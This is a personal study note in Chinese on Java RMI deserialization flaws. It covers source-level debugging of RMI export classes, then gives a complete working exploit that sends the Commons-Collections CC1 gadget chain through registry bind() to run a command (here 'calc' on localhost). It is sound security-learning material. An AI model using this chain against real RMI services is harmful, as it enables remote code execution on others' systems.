 # RMI

## 源码分析

rmi 的源码分析实质上是在对 jdk 源码进行分析了，在我当前的阶段，我真的觉得这个过程很吃力，有太多我不明白是用来做什么的类和方法了......

从源码入手分析 RMI 为什么会产生反序列化漏洞。在实例化远程对象那一行上面打断点进行动态调试。

- 这里注意让 ida 跳过类的加载，可在settings中进行设置

**问：UnicastRemoteObject类是用来做什么的？**

**答：该类用于创建和导出远程对象**



**问：exportObject() 方法是用来做什么的？**

**答：exportObject() 方法用于导出远程对象并使其能够在特定的端口接收远程调用**



**问：UnicastServerRef 类是用来做什么的？**

**答：该类用于构造一个 Unicast 服务端的远程引用，并导出到指定的端口**

注：Unicast是计网中的一个概念，用于描述网络中一对一的通信模式。在这种通信模式中，一个发送者向一个接收者发送数据，就像是电话上的一对一通话。在 RMI 中，Unicast 是一种实现远程对象之间通信的方式。每个远程对象都有一个唯一的标识符，称为远程引用（Remote Reference）。

## RMI攻击手法

### bind() 和 readbind()

这两个方法最终会根据传入的远程对象调用 readObject() 方法，所以存在反序列化漏洞。exp 编写的核心思路也不复杂，已知最终会根据远程对象调用 readObject()，并且我们知道远程对象实际上是一个代理实例，所以可以在远程对象的调用处理器上着手。巧合的是，CC1 刚好就利用到了某个调用处理器类进行攻击，我们把 CC1 的 payload 搬过来直接用就好，不过要注意定义完代理类实例要转成 Remote 对象。

```java
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
  
import java.lang.annotation.Target;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Proxy;  
import java.rmi.Remote;  
import java.rmi.registry.LocateRegistry;  
import java.rmi.registry.Registry;  
import java.util.HashMap;  
import java.util.Map;  
  
public class AttackRegistryEXP {  
    public static void main(String[] args) throws Exception{  

        Registry registry = LocateRegistry.getRegistry(
            "127.0.0.1",
            1099
        );  
        InvocationHandler handler = (InvocationHandler) CC1();

        Remote remote = Remote.class.cast(Proxy.newProxyInstance(  
                Remote.class.getClassLoader(),
                new Class[] { Remote.class }, 
                handler)
            );  
        registry.bind("test",remote);  
 }  
  
    public static Object CC1() throws Exception{

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                    "getMethod",  
                    new Class[]{String.class, Class[].class}, 
                    new Object[]{"getRuntime", null}
                ),  
                new InvokerTransformer(
                    "invoke", 
                    new Class[]{Object.class, Object[].class}, 
                    new Object[]{null, null}
                ),  
                new InvokerTransformer(
                    "exec", 
                    new Class[]{String.class}, 
                    new Object[]{"calc"}
                )  
        };  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
        HashMap<Object, Object> hashMap = new HashMap<>();  
        hashMap.put("value","drunkbaby");  
        Map<Object, Object> transformedMap = TransformedMap.decorate(
            hashMap, 
            null, 
            chainedTransformer
        );  
        Class c = Class.forName(
            "sun.reflect.annotation.AnnotationInvocationHandler"
        );  
        Constructor aihConstructor = c.getDeclaredConstructor(
            Class.class, Map.class
        );  
        aihConstructor.setAccessible(true);  
        Object o = aihConstructor.newInstance(Target.class, transformedMap);  
        return o;  
 }  
}
```



## 推荐阅读

1. [Java远程方法调用(RMI) - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/135360489)

虽然啰嗦了一些，但是是对于官方rmi描述的汉化翻译，还是值得一看的。

2. [Java的RMI介绍及使用方法详解 | w3cschool笔记](https://www.w3cschool.cn/article/30445887.html)

这篇我看完了，感觉也挺不错，说的很简单。

3. 最后是 RMI 漏洞成因的[源码分析](https://drun1baby.top/2022/07/19/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BRMI%E4%B8%93%E9%A2%9801-RMI%E5%9F%BA%E7%A1%80/)



